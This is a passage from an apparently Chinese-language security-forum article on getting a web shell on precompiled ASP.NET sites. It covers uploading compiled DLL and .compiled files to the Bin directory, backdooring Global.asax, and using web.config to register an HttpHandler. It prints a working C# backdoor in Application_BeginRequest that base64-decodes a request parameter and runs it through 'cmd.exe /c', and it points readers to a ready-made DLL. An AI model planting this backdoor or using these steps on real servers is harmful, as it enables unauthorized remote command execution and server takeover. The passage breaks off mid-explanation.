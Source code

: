![image.png](https://shs3.b.qianxin.com/attack_forum/2022/07/attach-5f19d55db3727eea1169d4aa87f6937d9858dceb.png)

### 4.2 上传至Bin目录

bin这个目录包含了项目所有使用到的.Net程序集，并且 在Web 应用程序任意处的其他代码会自动引用该文件夹。典型的示例是您为自定义类编译好的代码。您可以将编译后的程序集复制到Web应用程序的 Bin文件夹中，这样所有页都可以使用这个类。Bin文件夹中的程序集无需注册。只要.dll 文件存在于 Bin 文件夹中，.NET 就可以识别它。如果您更改了 .dll 文件，并将它的新版本写入到了 Bin 文件夹中，则 .NET 会检测到更新，并对随后的新页请求使用新版本的 .dll ，笔者假定如果上传漏洞可以任意跨目录的话就可以将编译好的compiled文件和关联的App\_Web\_xxxxx.dll上传到Bin目录，举个栗子比如需要编译“D:\\Project\\test”目录下的aspx.aspx文件，文件内容是启动calc， 执行下面命令生成 aspx.aspx.cdcab7d2.compiled 和 App\_Web\_4z2nrvyu.dll 两个文件，将它们上传到bin目录，然后还需要把aspx.aspx这个占位符文件上传到站点根目录下，再访问/aspx.aspx即可在进程中拉起计算器，整个过程需要分三次上传，并且涉及到跨bin目录和根目录

```php
aspnet_compiler -v /Lib -p D:\Project\test D:\test -fixednames
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/07/attach-cd8bf13a6fc79de4611e17ea0c5cbcf4d0d2e62b.png)

如果遇到根目录不可写的场景话，就需要改变打法，用.NET提供的全局文件Global.asax去实现GetShell，Global.asax这个文件是IIS请求和响应必进过的文件，是包含了HTTP会话生命周期各个阶段状态处置的文件。 它继承自System.Web.HttpApplication，它的作用是定义 .NET 应用程序中的所有应用程序对象共有的方法、属性和事件。笔者在 Application\_Start 和Application\_BeginRequest 两个方法内分别实现启动winver进程和mstsc进程，如下图

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/07/attach-b3d0537d2b0b2609c64f00627348f136413d8e19.png)

Application\_Start() 表示在HttpApplication 类的第一个实例被创建时，该事件被触发。它允许你创建可以由所有HttpApplication 实例访问的对象，这是我们程序第一次启动的时候调用的方法，Application\_BeginRequest() 表示在接收到一个应用程序请求时触发。对于一个请求来说，它是第一个被触发的事件。在预编译的模式下Global.asax会被编译成App\_global.asax.dll 、App\_global.asax.compiled 两个文件，将这两个文件上传到Bin目录即可，刷新页面即可执行DLL里的命令。为了更加贴近实战，笔者优化代码加入从外部获取的数据，如下代码所示，DLL已经放在星球工具里，请师父们自取。

```php
private void Application_BeginRequest(object sender, EventArgs e)
        {
            if (!string.IsNullOrEmpty(HttpContext.Current.Request["content"]))
            {
                Process.Start("cmd.exe", "/c " + Encoding.GetEncoding("utf-8").GetString(Convert.FromBase64String(HttpContext.Current.Request["content"])));
            }
        }
```

### 4.3 Web.config助力突破预编译

在预编译模式下唯一不编译的就是web.config网站配置这个文件，它不参与编译并可以随时对站点目录下的Web.config 文件进行修改，而无需重新编译网站。这个点就很厉害了助力笔者打开潘多拉魔盒，看一看如何更好的利用好它。另外根据预编译的运行规则分析出必须使用编译后的DLL文件才能正常运行，一切未经过编译的ASPX源代码文件是不能运行的，所以有一种不能跨目录上传的场景，因为不能跨目录上传，所以编译好的DLL文件无法传至Bin目录下，从而不能GetShell，笔者假定任意文件上传只能限定于固定目录下，比如/Lib/目录，而此时又满足对web.config文件的读写，这样的场景下可在编译的DLL里实现HttpHandler。

#### 4.3.1 打造HttpHandlerDLL

IIS提供的ISAPI是根据文件名后缀把不同的请求转交给不同的处理程序，几乎所有的.NET应用程序都交给 aspnet\_isapi.dll 去处理了，但是aspnet\_isapi.dll对不同的请求采取不同的处理方式，查看C:\\Windows\\Microsoft.NET\\Framework\\v4.0.30319\\Config\\web.config配置定义如下

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/07/attach-c994c3563ff7a14801cfb4996d3e4e70eb583c36.png)

例如 `<add path="\*.ashx" verb="\*" type="System.Web.UI.SimpleHandlerFactory" validate="True"/>` 配置项中path属性是必选的，它的作用是指定路径可以包含单个URL或者简单的通配符字符串如 \*.ashx ，表示默认任意文件名的一般处理程序ashx均可通过 System.Web.UI.SimpleHandlerFactory实现HTTP请求和响应， 其它的属性参考下表
